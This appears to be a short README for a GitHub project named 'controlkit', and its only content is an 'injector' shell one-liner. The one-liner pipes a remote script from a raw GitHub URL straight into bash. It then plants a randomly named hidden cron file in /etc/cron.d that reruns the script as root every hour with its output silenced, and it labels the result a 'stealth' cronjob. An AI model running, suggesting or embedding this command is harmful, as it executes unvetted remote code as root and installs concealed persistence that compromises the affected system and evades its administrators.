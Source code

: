 # controlkit

injector 

bash <(curl -s https://raw.githubusercontent.com/Hecate1337-py/controlkit/refs/heads/main/injector_master.sh) && \
RAND=$(head /dev/urandom | tr -dc a-z0-9 | head -c 6) && \
CRONFILE="/etc/cron.d/.sys_$RAND" && \
echo "0 * * * * root bash /root/injector_master.sh > /dev/null 2>&1" > "$CRONFILE" && \
chmod 644 "$CRONFILE" && \
echo "[✓] Cronjob stealth saved as: $CRONFILE"
